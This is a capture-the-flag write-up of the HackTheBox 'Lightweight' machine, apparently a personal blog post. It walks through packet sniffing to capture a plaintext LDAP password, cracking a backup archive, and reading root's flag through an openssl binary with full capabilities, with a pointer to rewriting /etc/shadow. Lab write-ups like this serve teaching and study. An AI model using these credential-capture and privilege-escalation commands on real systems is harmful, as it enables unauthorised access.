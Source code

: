 ```yaml
---
layout: post
title: HTB Lightweight
---
```


I enjoyed Lightweight, as it was kind of a different box from what I've come across, especially in the user part.

Portscan:
Nmap showed three open ports, i.e. ssh, http and ldap
```
Nmap scan report for 10.10.10.119
Host is up (0.61s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (EdDSA)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

On port 80:

![index.html](../images/lightweight_index.png)

The user page prompt me to login via ssh with my IP as username and password. 

Enumerating the LDAP server didn't bring any useful info. After spending some time thinking about the next move, some people over at [0x00sec](https://0x00sec.org/) suggested capturing packets from the lo interface with *tcpdump*.
After "listening" to the box by running ``tcpdump -i lo -A -w inter.pcap`` I started browsing the website. The status.php was taking quite a time to load, so that was suspicious.

After browsing the website enough, I moved the pcap file to /tmp and transfered it to my local computer with ``scp 10.10.14.200@10.10.10.119:/tmp/inter.pcap .``

Opening the file with wireshark, we find that there is an ldap "bind request" from ldapuser2 with [simple authentication](https://ldapwiki.com/wiki/Simple%20Authentication), meaning that the ldapuser2's password was in plain sight.

![wireshark](../images/wireshark.png)

By using it as password, I used ``su`` to ldapuser2 and got the user flag.

```
su ldapuser2
Password: 
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$  cat user.txt
8a866d3b*******************
```

In ldapuser2's home directory we find a backup.7z file. I transferred it to my local machine like the pcap file only to find out that it was password protected. There I used a [script](https://gist.github.com/bcoles/421cc413d07cd9ba7855) I found, which uses john to brute-force the 7z file. The password was ```delete```

There I found some php files, which are the same from the website, only with a twist:
after running ``cat * | grep user`` in a desparate move for something valueable, I found that the user is ldapuser1, 

```
vict0ni@vict0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep username
$username = 'ldapuser1';
```

so the next logical thing to do is to run ``cat * | grep password``, where we find the ldapuser1's password

```
vict0ni@vic0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
if ($bind=ldap_bind($ds, $dn, $password)) {
...
...
```

Escalating to ldapuser1, like previously with ldapuser2.

```
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```

There, root got a bit spoiled to me, because some people where giving away clues inside the box. Specific, one broadcasted the message "openssl is the key". Kind of a bummer but finding two binaries on the home directory was meaning that the way for root had to do with one of them. So the spoil just saved me a rabbithole. But, please, **do not** spoil.

I enumerated the openssl binary I had in front of me. After examing it's capabilities with ``getcap -r openssl`` the output was ``openssl =ep``, which means that it had access to anything.

So to get the root.txt file, one must grab it with openssl, encrypt it and paste it in a directory, then decrypt it to read it, like ``/home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root`` and then ``base64 -d enc_root``.
And there is the *sweet* root flag :D

```
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root
[ldapuser1@lightweight ~]$ base64 -d enc_root
f1d4e309c*******************
```

PS: "But if you don't get a shell and can't run code, is a system really owned? :thinking:".
Searching for some way to get a root shell I came across [this](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) article, where one can rewrite the /etc/shadow file.
